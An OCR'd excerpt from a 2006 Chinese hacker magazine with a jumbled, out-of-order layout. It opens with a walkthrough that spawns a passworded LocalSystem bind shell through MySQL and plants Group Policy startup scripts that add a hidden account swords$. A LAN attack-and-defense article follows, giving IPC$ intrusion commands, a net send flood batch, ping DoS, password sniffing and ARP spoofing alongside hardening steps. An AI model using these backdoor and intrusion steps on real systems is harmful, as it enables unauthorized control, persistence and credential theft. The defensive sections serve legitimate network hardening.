echo [Startup] > C:\winnt\system32\GroupPolicy\Machine\Scripts\scripts.ini
echo 0CmdLine=swords1.vbs >>C:\winnt\system32\GroupPolicy\Machine\Scripts\scripts.ini
echo 0Parameters= >> C:\winnt\system32\GroupPolicy\Machine\Scripts\scripts.ini
echo [Shutdown] >>C:\winnt\system32\GroupPolicy\Machine\Scripts\scripts.ini
echo 0CmdLine=swords2.vbs>>C:\winnt\system32\GroupPolicy\Machine\Scripts\scripts.ini
echo 0Parameters= >>C:\winnt\system32\GroupPolicy\Machine\Scripts\scripts.ini
```

```
MYSQL可以执行这个Shell函数。
$query="Select Shell()";
@$result = MYSQL_query($query,$link) or die (#Execute failed");
echo "Congratulations! Connect The Port 6666 Of This Server VS password:FurQ<br>";
//这一步是执行这个Shell函数，打开服务器的6666端口。
?>
```

再次执行，全部正常返回。如图2所示。
那么现在，我们就可以使用nc连接服务器的6666端

```
http://127.0.0.1/cmd.php
MySql Ver 5.0.22 http://www.2cto.com
Good Boy,Connected!
Yes You Did!
Godness....Successed!
Congratulations! Connect The Port 6666 Of This Server VS password:FurQ
```

图2

口，输入这个密码FurQ。然后就返回CMDSHELL了。当然，由于继承的是MYSQL的权限，而Windows系统下MYSQL默认以服务安装，也就是说，我们得到的Shell为LocalSystem权限，可以“为所欲为”了，不过不要做坏事哦！


## EXPLOIT ATTACK

》栏目编辑 / 脚本小子 > scriptsboy@hacker.com.cn

```
GroupPolicy\Machine\Scripts\scripts.ini
    echo 0Parameters=>C:\winnt\system32\
GroupPolicy\Machine\Scripts\scripts.ini
```

将文件scripts.ini保存到C:\winnt\system32\GroupPolicy\Machine\Scripts下。最后，等待服务器重新启动计算机或自己强制其启动（手段很多），然后你就等着“玩”吧。

### 本机提权

如果你是本机，或已经连接了对方的3389，但是只有普通用户权限，怎么办？
在启用计算机启动/关机脚本前，必须进行指派。指派计算机启动/关机脚本需要通过组策略MMC（管理控制台）管理单元进行。

- 开始/运行/MMC，打开微软控制台。
- 按Ctrl+M键，打开添加/删除管理单元窗口，单击添加。如图1所示。


图1

- 在“添加独立管理单元”对话框内选择“组策略”，点击“添加”按钮。
- 选择缺省的“本地计算机”组策略对象/完成/确定/确定，关闭窗口。
- 在生成的“本地计算机”策略中打开计算机配置/Windows设置/脚本(启动/关闭)节点，双击“启动”或“关机”项目设置计算机启动或关机时使用的脚本，单击浏览加入你要启动的脚本文件，确定。如图2所示。


图2

- 设置完毕，保存后退出组策略MMC管理单元。等组策略刷新后，这些脚本就会在计算机启动和关机时起作用。

> > 你也可以直接打开gpedit.msc，依次展开计算机配置/Windows设置/脚本(启动/关闭)，然后添加一个启动脚本。然后依次展开“计算机配置/管理模板/系统/登录，将“显示启动脚本的运行状态”启用。重新启动之后看看吧，打开cmd，输入net user swords$显示详细的信息，多了一个用户吧？！

最后需要注意的是 本使用方法时，须服务器已经指派了计算机启动脚本，否则本方法可能不成功！

适合读者：网络管理员
前置知识：无


## 《防》——喋血内网

文/图 Ivory ——郝永清

局域网在今天有着越来越广泛的应用，但在安全防护方面，也存在着相当多的认识误区。表面上局域网与外网有着很好的隔离，岂不知局域网一直是网络安全防范中的一个重点环节，一方面目前绝大多数的局域网使用的协议都是TCP/IP，各种黑客工具一样适用于局域网，另一方面局域网中的计算机更多体现的是共享和服务，所以局域网的安全隐患较之于Internet更是有过之而无不及。在局域网中真正对自己信息安全构成威胁的不是遥远的黑客，而是自己身边的人——“内鬼”。
此文就和大家一起揭露内鬼的神秘面纱，在局域网中和他们展开一场喋血搏杀。


硬件的安全问题可以分为两种，一种是物理安全，一种是设置安全。

物理安全
物理安全是指防止意外事件或人为破坏具体的物理设备，如服务器、交换机、路由器、机柜、线路等。

设置安全
设置安全是指在设备上进行必要的设置（如服务器、交换机的密码等），防止黑客取得硬件设备的远程控制权。比如许多网管往往没有在服务器或网管的交换机上设置必要的密码，懂网络设备管理技术的人可以通过网络来取得服务器或交换机的控制权，这是非常危险的。

#### 1.攻击

在攻击方面，黑客可能采取破坏线路、破坏路由器和交换机来达到目的；入侵Modem以获取ADSL拨号密码，然后用来充QQ币等；普通打印机、传真机、电话机等信息处理和传输设备的泄漏信息可以在一定距离内通过特定手段截获和还原；如果有机会接触到攻击对象的机器，他们会采取破坏主机板电路和盗窃机器组件来破坏物理设备；或者直接用一些手段，比如“Ntapswd”这样的软件来直接修改机器的密码等。当然这些在技术方面为同人所不齿，但是对攻击而言他们确实是最厉害的角色，因为他们具有最有利的条件。如果针对的是个人电脑，那损失还要小些，但如果是针对银行这样的局域网，可想而知，损失是不可计算的。

### 2.防御措施和追捕内鬼

这样的攻击用一般的思路来防止是很困难的，这里列举出几个特殊的方法。

- 机房和机柜的钥匙一定要管理好，不要让无关人员随意进入机房，尤其是网络中心机房，防止人为的蓄意破坏，机房要有保安看守，最好采取指纹和视网膜认证。
- 如果有条件，可以考虑隔离强磁场的设备和安装避雷针。
- 在中心数据机房安装隐蔽的针孔摄像头，24小时不停地工作，并保留一周的影像，备案以抓捕内鬼。
- 经常备份数据，防止重要数据的丢失。
- 在设备上进行必要的设置，防止内鬼取得硬件设备的远程控制权。


图1
还可以探测到许多信息，包括弱口令（在局域网中一般密码都很简单）就可以用共享入侵来实现、系统漏洞等等。所以我们只要被内鬼发现有有存在的踪迹，就难逃他们的“魔爪”。

### 2.防范及追捕内鬼

我们可以通过在局域网中隐藏自己来达到防御的目的。
在cmd中输入“net config 服务器名 /hidden:yes”，再回车就可以了，这样别人就无法从网上邻居中直接看到你的计算机，只有通过在资源管理器地址栏中输入“\\计算机名”才能访问你的计算机。不过，通过上面的方法只能对当前系统有效，以后每次重新启动系统后要重新运行该命令才行，如果希望将自己的计算机从网上邻居中永久隐藏，可以通过修改注册表来达到目的。打开注册表编辑器，在左侧窗口中展开[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\Parameters]，在右侧窗口中找到DWORD类型值改为“1”，按“F5”刷新注册表即可。
使用天网防火墙能很轻松的截获到来自内网的ICMP数据包的来源和目的地址，如图2所示；并丢弃这些包。利用Windows SP2也能截获这些包的来源，我们来看日志中记录的数据。

```
#Version: 1.5
#Software: Microsoft Windows Firewall
#Time Format: Local
#Fields: date time action protocol src-ip dst-ip src-port dst-port size icmpflags icmpseq tcpack icpwin icmptype icmpcode info path
2005-06-15 11:04:33 OPEN ICMP 192.168.0.2 192.168.0.3 6004 8000 - - - - - - - - - -
2005-06-15 11:04:33 OPEN ICMP 192.168.0.2 192.168.0.3 6003 8000 - - - - - - - - - -
```

这样我们就简单的看到192.168.0.3这个地址在作怪。如图3所示。
图3是天网的截图，这是日志中的一些拦截信息，我们可以清楚地从中看到192.168.0.1试图用Ping来攻击，但该操作已经被拒绝。

## EXPLOIT ATTACK

》栏目编辑》脚本小子》scriptboy@hacker.com.cn


### 的防御 追捕内鬼

net send即"信使服务"，它依赖messenger服务，微软对此服务的解释是传输客户端和服务器之间的NET SEND和Alerter服务消息。Windows 2000默认是开启这个服务的，所以攻击者只要使用net send命令就可以给内网中任何一台机器发送消息。

#### 1.攻击

在cmd中用此命令 net send /?就可以查询到此命令的用法。
上图是我对本机器的一次net send测试，弹出了一个干扰框。
表面上看这个不是什么漏洞，其实不然，它存在一个隐患。喜欢恶作剧的内鬼如果编写bat程序，不停的对攻击的系统发送这样的消息，可想而知会对对方造成很大的影响。一个bat程序如下（假设文件名为isno.bat）：

```
-------code begin-------
Net send %1 我爱你
Call isno.bat
-------end-------
```

这两句一结合，效果自然不怎么样，因为只有一台机器来发消息，但是如果有100台机器同时执行，而且每台机器开10和窗口同时向一个目标机器发消息的话，那威力就不可想象了。

#### 2.防范和追捕内鬼

防范其实很简单，一个命令就可以搞定，在cmd下利用"net stop messenger"就可以停止messenger服务了，或者使用"services.msc"进入服务，然后手工停止messenger服务也可以。
追捕内鬼也很简单，信使提供了来源的机器名，如上面的图中所表示的"从ISNO到2005-6-15 10:02:41上SNO消息"说明是从ISNO发送过来的。然后我们就可以通过如下的探测来追捕黑客，如图4所示。


如图4，我在cmd中运行一个"nbtstat a isno"命令，就可以得到如上信息。
这样内鬼的信息就暴露出来了，我们可以轻松地找到他们。

### 的防御 免遭入侵

在某局域网中，服务器装有Windows 2000 Server系统且采用NTFS分区，客户机计算机分别为Work1、Work2……WorkN，并装有Windows 98或Windows 2000 Pro系统。假如其中一台客户机的用户名为isno，密码为123456，ip为192.168.0.1，已经登录到域domain，则它可使用默认共享方式入侵服务器。在该客户机的网络邻居地址栏中输入\\isno\admin$，便可进入Windows 2000的系统目录Windows NT，此时该用户可以删除文件。再输入\\isno\d$，即可进入服务器上的D盘，此时该客户机用户已经具备服务器的管理员权限，这是相当危险的。居心叵测的人可以通过新建Winstart.bat或者Wininit.ini文件，并在其中加入格式化C盘的语句，使系统丢失所有C盘文件；或是在服务器的启动项中加入现在任何流行木马的启动程序，后果也不堪设想。
以下是一次真实的入侵：

```
Net use \\192.168.0.1\ipc$ "123456" /u: "isno"
命令成功完成。
net use z: \\192.168.0.1\c$ "123456" /u: "isno"
命令成功完成。
Dir z:\
…………
```

这样的话我们就可以查看192.168.0.1下C盘的内容了。之后就是开启telnet之类攻击的，有个opentelnet的软件可以直接获得一个Shell。
装有Windows 2000平台的客户机还可以通过IPC$的空连接入侵服务器。对于NT，在默认安全设置下，借助空连接可以列举目标主机上的用户和共享，访问everyone权限的共享，访问小部分注册表等，并没有什么太大的利用价值 对2000作用更小,因为在Windows 2000和以后版本中默认只有管理员和备份者有权从网络访问到注册表,而且实现起来也不方便,需借助工具。从这些我们可以看到,这种非信任会话并没有多大的用处,但从一次完整的ipc$入侵来看,空会话是一个不可缺少的跳板,因为我们从它那里可以得到用户列表,这对于一个老练的黑客已经足够了。

```
net use \\192.168.0.1\ipc$ "" /u:""
net view \\192.168.0.1
net time \\192.168.0.1
```

其实对于Windows 98还有一些不可不提的共享漏洞,虽然可能已经补上漏洞了,就是类似

```
\\IP\c\con\con
\\IP\c\ AUX\AUX
\\IP\print$
```

虽然漏洞过去很久了,但是值得怀念的。

#### 2.防御以及追捕内鬼

其实最简单的防御办法是建立一个批处理(bat)文件。按如下写法:

```
----------------code begin----------------
@echo off
Net share ipc$ /del
Net share admin$ /del
Net share c$ /del
Net share d$ /del
............
net stop server /y
------------------end------------------
```

放在机器启动项里,比如"启动",或组策略的"开机脚本"中就可以了。

我们还可以通过注册表编辑器来设置,定位到HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver,若系统为Windows 2000 Pro,则新建Autosharewks的DWORD值,并设键值为0;若系统为Windows 2000 Server,则新建Autoshareserver的DWORD值,并设键值为0。重新启动计算机后默认共享便不会再出现。

还有就是禁止ipc$空连接,可定位到注册表HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA,修改Restrict Anonymous的DWORD值为1。

最后一劳永逸的方法是禁止workstation和server服务,不过这样也会对自身通信有影响。

拒绝服务是对带宽要求比较高的攻击,无论是出于内网的带宽考虑,还是从路由过滤包考虑,拒绝服务攻击在内网的威力都比外网好。

#### 1.攻击

1)Ping攻击
先来说说最简单的ping吧,一条命令 ping IP 就可以了。如图5 所示。


如图5所示,是对192.168.0.2发起的一次Ping拒绝服务攻击。当在一台机器上运行此命令也许会察觉不出来,如果局域网中五六台机器都利用这个命令来Ping同一台主机的话,我想用不了多久,对方的系统资源使用率就会高达100%,如果再继续使用一段时间的话,对方的系统资源使用率就会长时间居高不下,结果自然就会让对方机器崩溃。

2)smurf攻击
如果局域网内分割成了几个网段,就可以使用smurf攻击了,这种攻击方法结合了IP欺骗和ICMP回复使大量网络传输充斥目标系统,引起目标系统拒绝为正常系统进行服务。具体攻击模型如图6 所示。


图6表示LAN3的smurf攻击:利用LAN2来攻击LAN1。

3)攻击器
当然还可以使用一些专业的拒绝服务攻击的工具,比如ddos.exe、UDP Flood、狂怒之Ping、SYN潜伏攻击者等。

#### 2.防御措施

我们知道拒绝服务攻击不仅对于外网有很严重的威胁,对内网也一样。到现在为止,并没有一个完全能对付DDOS攻击的方案,而且对于这些拒绝服务的防御要针对特定的工具来制定,还要分清楚是带宽攻击还是应用攻击。这里写出一些缓和内网拒绝服务的措施。

- 禁止ICMP回响。
- 关闭一些不必要的端口。
- 增强机器性能配置。
- 扩大带宽。

对于目前很流行的以太网协议,其工作方式是:将要发送的数据包发往连接在一起的所有主机，包中包含着应该接收数据包主机的正确地址，只有与数据包中目标地址一致的那台主机才能接收。但是，当主机工作在监听模式下，无论数据包中的目标地址是什么，主机都将接收（当然只能监听经过自己网络接口的那些包）。

在因特网上有很多使用以太网协议的局域网，许多主机通过电缆、集线器连在一起。当同一网络中的两台主机通信的时候，源主机将写有目的主机地址的数据包直接发向目的主机。但这种数据包不能在IP层直接发送，必须从TCP/IP协议的IP层交给网络接口，也就是数据链路层，而网络接口是不会识别IP地址的，因此在网络接口数据包又增加了一部分以太帧头的信息。在帧头中有两个域，分别为只有网络接口才能识别的源主机和目的主机的物理地址，这是一个与IP地址相对应的48位地址。

传输数据时，包含物理地址的帧从网络接口（网卡）发送到物理的线路上，如果局域网是由一条粗缆或细缆连接而成，则数字信号在电缆上传输，能够到达线路上的每一台主机。当使用集线器时，由集线器再发向连接在集线器上的每一条线路，数字信号也能到达连接在集线器上的每一台主机。当数字信号到达一台主机的网络接口时，正常情况下，网络接口读入数据帧，进行检查，如果数据帧中携带的物理地址是自己的或者是广播地址，则将数据帧交给上层协议软件，也就是IP层软件，否则就将这个帧丢弃。对于每一个到达网络接口的数据帧，都要进行这个过程。

然而，当主机工作在监听模式下，所有的数据帧都将被交给上层协议软件处理。而且，当连接在同一条电缆或集线器上的主机被逻辑地分为几个子网时，如果一台主机处于监听模式下，它还能接收到发向与自己不在同一子网（使用了不同的掩码、IP地址和网关）的主机的数据包。也就是说，在同一条物理信道上传输的所有信息都可以被接收到。另外，现在网络中使用的大部分协议都是很早设计的，许多协议的实现都是基于一种非常友好的、通信的双方充分信任的基础之上，许多信息以明文发送。因此，如果用户的账户名和口令等信息也以明文的方式在网上传输，而此时一个内鬼正在进行网络监听，只要具有初步的网络和TCP/IP协议知识，便能轻易地从监听到的信息中提取出感兴趣的部分。

#### 1.攻击

- 使用x-sniffer进行嗅探
使用命令x-sniff -pass，只要放在一台内网的机器上（必须是以集线器为中心连接的），就可以截获到内网中所有机器发送的密码，如图7所示。
你看，图7中我们截获到了163.sohu,77169的密码，而且都以明文显示。
- 使用更高级的监听软件
使用一些sniffer pro之类的工具，不仅可以嗅探到用户的密码，而且嗅探到所有的数据包，里面包括密码和cookie，这对分析TCP/IP数据包很有帮助。

#### 2.防御和追捕内鬼


正确地使用网络监听技术也可以发现入侵并对入侵者进行追踪定位，在对网络犯罪进行侦查取证时获取有关犯罪行为的重要信息，成为打击网络犯罪的有力手段。

网络监听是很难被发现的，因为运行网络监听的主机只是被动地接收在局域网上传输的信息，不主动的与其它主机交换信息，也没有修改在网上传输的数据包。这里列举出一些有利于我们防御和追捕内鬼的解决办法如下。

- 对可能存在的网络监听的检测
  - 对于怀疑运行监听程序的机器，用正确的IP地址和错误的物理地址Ping，运行监听程序的机器会有响应。这是因为正常的机器不接收错误的物理地址，处理监听状态的机器能接收，但如果他的IP stack不再次反向检查的话，就会响应。
  - 向网上发大量不存在的物理地址的包，由于监听程序要分析和处理大量的数据包会占用很多的CPU资源，这将导致性能下降。通过比较前后该机器性能加以判断。这种方法难度比较大。
  - 使用反监听工具如antisniffer等进行检测。
- 对网络监听的防范措施
  - 从逻辑或物理上对网络分段
网络分段通常被认为是控制网络广播风暴的一种基本手段，但其实也是保证网络安全的一项措施。其目的是将非法用户与敏感的网络资源相互隔离，从而防止可能的非法监听。
  - 以交换式集线器代替共享式集线器
对局域网的中心交换机进行网络分段后，局域网监听的危险仍然存在。这是因为网络最终用户的接入往往是通过分支集线器而不是中心交换机，而使用最广泛的分支集线器通常是共享式集线器。这样，当用户与主机进行数据通信时，两台机器之间的数据包（称为单播包Unicast Packet）还是会被同一台集线器上的其他用户所监听。
  - 使用加密技术
数据经过加密后，通过监听仍然可以得到传送的信息，但显示的是乱码。使用加密技术的缺点是影响数据传输速度以及使用一个弱加密术比较容易被攻破。系统管


## EXPLOIT ATTACK

> 栏目编辑 / 脚本小子 > scriptboy@hacker.com.cn

- d.划分VLAN  
运用VLAN（虚拟局域网）技术，将以太网通信变为点到点通信，可以防止大部分基于网络监听的入侵。


盗用IP是一个非常戏剧性的技术，一旦被盗用IP，则说明你的电脑IP地址与别人的相同（被别人盗用）。电脑在开机的过程中要对网络进行检测，很容易就会发现这种冲突，并在屏幕上显示出来。这样的情况尤其经常发生在有特殊功能的电脑上，比如你的电脑可以上Internet而别人的电脑却只能上局域网。先开机的电脑就取得了网络控制权，后开机的电脑就不能上网了。被盗用IP所出现的情况一般是弹出一个对话框，显示网内中某某IP和你有冲突，这个时候也许有人正在发起一次攻击。

#### 1.攻击

IP地址的盗用方法多种多样，其常用方法主要有以下几种。

- 1) 静态修改IP地址  
对于任何一个TCP/IP实现来说，IP地址都是其用户配置的必选项。如果在配置TCP/IP或修改TCP/IP配置时，使用的不是授权机构分配的IP地址，就形成了IP地址盗用。由于IP地址是一个逻辑地址，是一个需要用户设置的值，因此无法限制用户对于IP地址的静态修改，除非使用DHCP服务器分配IP地址，但会带来其他管理问题。

- 2) 成对修改IP-MAC地址  
对于静态修改IP地址的问题，现在很多内网都采用静态路由技术加以解决。针对静态路由技术，IP盗用技术又有了新的发展，即成对修改IP-MAC地址。MAC地址是设备的硬件地址，对于我们常用的以太网来说，即俗称的计算机网卡地址。每一个网卡的MAC地址在所有以太网设备中必须是唯一的，它由IEEE分配，是固化在网卡上的，一般不能随意改动。但是，现在的一些兼容网卡，其MAC地址可以使用网卡配置程序进行修改。如果将一台计算机的IP地址和MAC地址都改为另外一台合法主机的IP地址和MAC地址，那静态路由技术就无能为力了。  
另外，对于那些MAC地址不能直接修改的网卡来说，用户还可以采用软件的办法来修改MAC地址，即通过修改底层网络软件达到欺骗上层网络软件的目的。

- 3) 动态修改IP地址  
对于一些黑客高手来说，直接编写程序在网络上收发数据包，绕过上层网络软件，动态修改自己的IP地址（或IP-MAC地址对），达到IP欺骗并不是一件很困难的事。

### 2.防范

- 1) 交换机控制  
解决IP地址的最彻底的方法是使用交换机进行控制，即在TCP/IP第二层进行控制：使用交换机提供的端口的单地址工作模式，即交换机的每一个端口只允许一台主机通过该端口访问网络，任何其它地址的主机的访问被拒绝。但此方案的最大缺点在于它需要网络上全部采用交换机提供用户接入，这在交换机相对昂贵的今天不是一个能够普遍采用的解决方案。

- 2) 路由器隔离  
采用路由器隔离的办法其主要依据是MAC地址作为以太网卡地址全球唯一不能改变。其实现方法为通过SNMP协议定期扫描网络内容路由器的ARP表，获得当前IP和MAC的对照关系，和事先合法的IP和MAC地址比较，如不一致，则为非法访问。对于非法访问，有几种办法可以制止，如下。

- a. 使用正确的IP与MAC地址映射覆盖非法的IP-MAC表项。  
b. 向非法访问的主机发送ICMP不可达的欺骗包，干扰其数据发送。  
c. 修改路由器的存取控制列表，禁止非法访问。

路由器隔离的另外一种实现方法是使用静态ARP表，即路由器中IP与MAC地址的映射不通过ARP来获得，而采用静态设置。这样，当非法访问的IP地址和MAC地址不一致时，路由器根据正确的静态设置转发的帧就不会到达非法主机。  
路由器隔离技术能够较好地解决IP地址的盗用问题，但是如果非法用户针对其理论依据进行破坏，成对修改IP-MAC地址，对这样的IP地址盗用它就无能为力了。

- 3) 防火墙与代理服务器  
使用防火墙与代理服务器相结合，也能较好地解决IP地址盗用问题：防火墙用来隔离内部网络和外部网络，用户访问外部网络通过代理服务器进行。使用这样的办法是将IP防盗放到应用层来解决，变IP管理为用户身份和口令的管理，因为用户对于网络的使用归根结底是要使用网络应用。这样实现的好处是，盗用IP地址只能在子网内使用，失去盗用的意义：合法用户可以选择任意一台IP主机使用，通过代理服务器访问外部网络资源，而无权用户即使盗用IP，也没有身份和密码，不能使用外部网络。  
使用防火墙和代理服务器的缺点也是明显的，由于使用代理服务器访问外部网络对用户不是透明的，增加了用户操作的麻烦；另外，对于大数量的用户群来说，用户管理也是一个问题。

### 3.擒贼内寇

这次我们来一个空手夺白刃来捕捉盗用你IP的内鬼。  
关闭你的电脑，在另一台电脑上运行cmd命令：  
`nbstata   A   IP`，注意，这个IP地址为和你冲突的IP地址。运行后，如图8 所示。


图8

黑客防线 2006精华奉献本 下册 007-009

## 黑客防攻
EXPLOIT ATTACK

> 栏目编辑：脚本小子 scriptsboy@hacker.com.cn

如图8所示,从中可以看出很多那个内鬼的信息,我们抓到了内鬼机器名为ISNO,MAC地址00-E0-4C-11-00-27。还等什么,快找那个内鬼算账去吧。

### 从被监听方查看内鬼

ARP(Address Resolution Protocol)是地址解析协议,是一种将IP地址转化成物理地址的协议。从IP地址到物理地址的映射有两种方式: 表格方式和非表格方式。ARP具体说来就是将网络层(IP层,也就是相当于OSI的第三层)地址解析为数据连接层(MAC层,也就是相当于OSI的第二层)的MAC地址。

#### ○ 1.攻击 ◎

假设这样一个网络,一个Hub接了3台机器。

```
Host A 、Host B、 Host C 其中
A的地址为: IP: 192.168.0.1 MAC: AA-AA-AA-AA-AA-AA
B的地址为: IP: 192.168.0.2 MAC: BB-BB-BB-BB-BB-BB
C的地址为: IP: 192.168.0.3 MAC: CC-CC-CC-CC-CC-CC
```

正常情况下 C:\arp -a

```
Interface: 192.168.0.1 on Interface 0x1000003
Internet Address Physical Address Type
192.168.0.3 CC-CC-CC-CC-CC-CC dynamic
```

现在假设Host B开始了邪恶的ARP欺骗。
B向A发送一个自己伪造的ARP应答,而这个应答中的数据为发送方IP地址是192.168.0.3(C的IP地址),MAC地址是DD-DD-DD-DD-DD-DD(C的MAC地址本来应该是CC-CC-CC-CC-CC-CC,这里被伪造了)。当A接收到B伪造的ARP应答,就会更新本地的ARP缓存(A可不知道被伪造了)。而且A不知道其实是从B发送过来的,A这里只有192.168.0.3(C的IP地址)和无效的DD-DD-DD-DD-DD-DD的MAC地址,没有和犯罪分子B相关的证据,哈哈,这样犯罪分子岂不"乐"死了。

现在A机器的ARP缓存更新了:

```
C:\>arp -a
Interface: 192.168.0.1 on Interface 0x1000003
Internet Address Physical Address Type
192.168.0.3 DD-DD-DD-DD-DD-DD dynamic
```

局域网的网络流通可不是根据IP地址进行,而是按照MAC地址进行传输。现在192.168.0.3的MAC地址在A上被改变成一个本不存在的MAC地址。现在A开始Ping 192.168.0.3,网卡递交的MAC地址是DD-DD-DD-DD-DD-DD,结果是什么呢? 网络不通,A根本不能Ping通C!
所以,局域网中一台机器,反复向其他机器,特别是向网关,发送这样无效假冒的ARP应答信息包,一场严重的网络堵塞就开始了!
2)防御以及追捕内鬼
我们的目标和任务就是第一时间抓住这个内鬼。不过从刚才的表述好像他完美的利用了以太网的缺陷,掩盖了自己的罪行。但以上的方法也有留下了蛛丝马迹。尽管ARP数据包没有留下Host B的地址,但是,承载这个ARP包的Ethernet帧却包含了Host B的源地址。而且,正常

情况下Ethernet数据帧中,帧头中的MAC源地址/目标地址应该和帧数据包中ARP信息配对,这样的ARP包才算是正确的。如果不正确,肯定是假冒的包! 但如果匹配的话,也不一定代表正确,说不定伪造者也考虑到了这一步,而伪造出符合格式要求,但内容假冒的ARP数据包。不过这样也没关系,只要网关这里拥有本网段所有MAC地址的网卡数据库,如果和Mac数据库中数据不匹配也是假冒的ARP数据包,也能提醒犯罪分子动手了。

由于这个问题是由协议造成的,所以没有完全的防御办法,我列举了几个大体技术如下。

a.建立DHCP服务器(建议建在网关上,因为DHCP不占用多少CPU,而且ARP欺骗攻击一般总是先攻击网关,我们就是要让他先攻击网关,因为网关这里有监控程序的,网关地址建议选择192.168.0.2,把192.168.0.1留空,如果犯罪程序愚蠢的话让他去攻击空地址吧),另外所有客户机的IP地址及其相关主机信息,只能由网关这里取得,网关这里开通DHCP服务,但是要给每个网卡,绑定固定唯一IP地址。一定要保持网内的机器IP/MAC——对应的关系。这样客户机虽然是DHCP取地址,但每次开机的IP地址都是一样的。

b.建立MAC数据库,把网内所有网卡的MAC地址记录下来,每个MAC和IP、地理位置统统装入数据库,以便及时查询。

c.网关机器关闭ARP动态刷新,使用静态路由,这样的话,即使犯罪嫌疑人使用ARP欺骗攻击网关的话,这样对网关也是没有用的,确保主机安全。

d.网关监听网络。网关上面使用TCP DUMP程序截取每个ARP程序包,弄一个脚本分析软件分析这些ARP协议。ARP欺骗攻击的包一般有以下两个特点,满足之一可视为攻击包报警: 第一以太网数据包头的源地址、目标地址和ARP数据包的协议地址不匹配。或者,ARP数据包的发送和目标地址不在自己网络网卡MAC数据库内,或者与自己网络MAC数据库MAC/IP不匹配。这些统统第一时间报警,查这些数据包(以太网数据包)的源地址(也有可能伪造),就大致知道那台机器在发起攻击了。

e.偷偷摸摸的走到那台机器,看看使用人是否故意,还是被放了木马程序陷害的。如果后者,不声不响的找个借口支开他,拔掉网线,别关机。特别要看看Windows 98里的计划任务,看看机器的当前使用记录和运行情况,确定是否是在攻击。

### 内鬼还是老鬼,无线局域网安全问题

现在无线宽屏上网在欧洲和亚洲越来越流行,不但许多办公室、机场、咖啡店、饭店等都开始提供无线上网服务,甚至许多家庭用户也有无线宽频上网功能。不过一些专家最近指出,许多无线网络并没有采取安全防护措施,不但易遭黑客入侵,甚至连事后要追查元凶都有困难。

黑客入侵无线网络主要常用以下4种主要手法。

方法一: 现成的开放网络

www.hacker.com.cn
2006 精华奉献本 下册

过程 黑客扫描所有开放型无线存取点(Access Point),其中,部分网络的确是专供大众使用,但多数则是因为使用者没有做好设定。

企图 免费上网、透过你的网络攻击第三方、探索其他人的网络。

#### 方法二: 侦测入侵无线存取设备

过程 黑客先在某一企图网络或公共地点设置一个伪装的无线存取设备,好让受害者误以为该处有无线网络可使用。若黑客的伪装设备讯号强过真正无线存取设备的讯号,受害者计算机便会选择讯号较强的伪装设备连上网络。此时,黑客便可等着收取受害者键入的密码,或将病毒码输入受害者计算机中。

企图: 不肖侦测入侵、盗取密码或身份,取得网络权限。

#### 方法三: WEP加密攻击

过程 黑客侦测WEP安全协议漏洞,破解无线存取设备与客户之间的通讯。若黑客只是采监视方式的被动式攻击,可能得花上好几天的时间才能破解,但有些主动式的攻击手法只需数小时便可破解。

企图: 非法侦测入侵、盗取密码或身份,取得网络权限。

#### 方法四: 偷天换日

过程 跟第二种方式类似,黑客架设一个伪装的无线存取设备,以及与企图网络相同的及虚拟私人网络(VPN)服务器(如SSH)。若受害者要连接服务器时,冒牌服务器会送出响应讯息,使得受害者连上冒牌的服务器。

企图: 非法侦测入侵、盗取密码或身份,取得网络权限。

### 网络执法官: 综合防治局域网攻击

“网络执法官”是一款局域网管理辅助软件,采用网络底层协议,能穿透各客户端防火墙对网络中的每一台主机进行监控。它采用网卡号(MAC)识别用户,可靠性高;该软件不需运行于指定的服务器,在网内任一台主机上运行即可有效监控所有本机连接到的网络(支持多网段监控)。主要具有以下功能。

#### 1.攻击

1)实时记录上线用户并存档备查 网络中任一台主机,开机即会被本软件实时检测并记录其网卡号、所用的IP、上线时间、下线时间等信息。如图9所示。


如图9所示;网络执法官中记录了192.168.0.1的所有情况。自动侦测未登记主机接入并报警:管理员登记完成或软件自动检测到所有合法的主机后,可在软件中作出设定,拒绝所有未登记的主机接入网络。一旦有未登记主机接入,软件会自动将其MAC、IP、主机名、上下线时段等信息作永久记录,并可采用声音、向指定主机发消息等多种方式报警。如图10所示。


图10所示是设置机器权限的。

2)限定各主机的IP,防止IP盗用 管理员可对每台主机指定一个IP或一段IP,当该主机采用超出范围的IP时,软件会判定其为“非法用户”,自动采用管理员事先指定的方式对其进行控制,并将其MAC、IP、主机名作记录备查。

我们可以看出网络执法官确实是很厉害的一个软件,几乎集合了各种局域网攻击功能。

#### 2.防御与主动还击

1)防范为主——修改网卡的MAC地址

由于该软件采用网络底层协议,能穿透各客户端防火墙对网络的每一台主机进行监控和管理,所以防范起来有一定的难度。但是我们也可以通过修改自己的网卡的MAC地址来改变IP到MAC的映射,从而使得网络执法官的ARP欺骗失效,进而摆脱网络执法官的破坏。具体操作步骤如下:依次打开“网上邻居→属性→网络和拨号连接属性”,右击要修改MAC的网卡,在弹出的菜单中选择属性。然后点击“配置→高级”,点击“Network Address”,默认的选项为“没有显示”,选中上面的“设置值”选项,并输入新的网卡MAC地址,注意应该是12个十六进制数,如4561787895BA,不能设置为000000000000,也不能与别的网卡的MAC地址重复。然后点击确定,如图11所示。


2)追捕内鬼——查看日志

只是被动防范肯定是不够的,一定要内鬼得到他应有的“惩罚”!你可以通过网络执法官的日志功能揪出攻击者,注意通过网络执法官的版本不要太低,最少保证在2.0以上,只要从日志中找出攻击者的IP(具体方法为:依次打开主界面上的“系统→查看系统日志”),然后提给网络管理人员或者当地网络安全部门,就可以将他“绳之以法”了,甚至你还可以采用一些黑客手段

## EXPLOIT ATTACK

》栏目编辑 》脚本小子 》scriptboy@hacker.com.cn

“以其人之道，还治其人之身”。

### 做黑客，要做好自己的防御

系统本身的问题很难预先防御的，任何一个脚本小子找到了一个针对我们系统的EXP（通常情况下是一个溢出工具），就能很简单地控制我们的系统。我们只有利用被动的方式来作防御，这里我举出了以下的方法。

- 1）安装单机防火墙

a. 不要觉得安全标准设置得越严越好，如果安全标准设置过高，会造成许多网络应用不能实现，如办公自动化系统、共享应用等。一旦你防火墙设置过于严格，妨碍了你的日常应用，你就会觉得防火墙碍事而卸载它，结果得不偿失。

b. 不要以为所有出去的信息都是无害的，现在有很多反弹木马，能够主动向外连接客户端。因此Windows XP SP2内置的防火墙默认设置不能防止反弹木马，可以考虑更换其他功能全面的防火墙。

